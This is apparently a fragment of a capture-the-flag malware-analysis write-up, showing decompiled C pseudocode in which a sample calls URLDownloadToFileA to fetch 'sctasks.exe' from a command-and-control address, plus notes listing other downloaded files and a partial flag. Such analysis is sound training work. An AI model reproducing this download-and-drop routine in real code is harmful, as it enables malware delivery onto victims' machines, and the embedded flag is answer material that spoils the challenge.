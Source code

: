 ```c
      ++v33;
      --v32;
    }
    while ( v32 );
    v34 = 260 - v32;
    if ( v32 )
    {
      v35 = &v40[v34];
      v36 = 260 - v34;
      if ( 260 != v34 )
      {
        v37 = (char *)("\\sctask.exe" - v35);
        do
        {
          if ( !v0 )
            break;
          v38 = v35[(_QWORD)v37];
          if ( !v38 )
            break;
          *v35 = v38;
          --v0;
          ++v35;
          --v36;
        }
        while ( v36 );
      }
      v39 = v35 - 1;
      if ( v36 )
        v39 = v35;
      *v39 = 0;
    }
    return URLDownloadToFileA(0LL, "https://10.10.70.114/sctasks.exe", v40, 0, 0LL);
  }
  return result;
}

```


The code uses multiple calls to the `URLDownloadToFileA` API to retrieve files from a remote server.

---



- Downloads the following files from the C2 server:
  - `encrypted.bin`
  - `2.txt`
  - `sctasks.exe`

- Also attempts to access:
  - `https://10.10.70.114/L3AK{AV_evasion_is_easy`

---